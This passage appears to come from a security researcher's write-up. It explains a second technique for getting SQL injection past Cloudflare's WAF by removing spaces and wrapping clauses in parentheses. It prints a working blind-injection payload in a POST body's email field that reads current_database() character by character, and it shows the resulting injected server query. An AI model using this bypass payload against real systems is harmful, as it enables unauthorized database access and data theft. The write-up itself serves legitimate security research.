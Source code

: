 #### Second attempt
<p>
Before I gave it another go, I had to understand what was Cloudflare's issue with my query.
<br />
After some trial and error I figured out that the problem was the spaces in the FROM clause in the resulting server SQL query. This lead me to the
second WAF bypass.
</p>

<h5>WAF Bypass #2</h5>
<p>
The second WAF bypass technique utilized here eliminates spaces in the SQL query and encloses the parts of the SQL FROM clause
in parentheses. In short:
</p>
{% highlight sql %}
SELECT col FROM tab WHERE a='a' AND b='b';
{% endhighlight %}

becomes

{% highlight sql %}
SELECT(col)FROM tab WHERE(a='a')AND(b='b');
{% endhighlight %}

So the resulting body of the POST request becomes:

{% highlight json %}
...
 "email":"a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT current_database()),1))))AND('a'='a"}
}
{% endhighlight %}

and the subsequent SQL query on the server looks like this:

{% highlight sql linenos %}
SELECT t1.*
FROM table1 AS t1 LEFT JOIN table2 AS t2
	ON t2.id = t1.id
	AND t2.q_id IN (1, 2, 3, 4)
	AND t2.input = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT current_database()),1))))AND('a'='a')
WHERE 
	t1.deleted_at IS NULL
	AND t1.name = $1
	AND (
		LOWER(t1.email) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT current_database()),1))))AND('a'='a')
		OR LOWER(t2.input) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT current_database()),1))))AND('a'='a')
	);
{% endhighlight %}
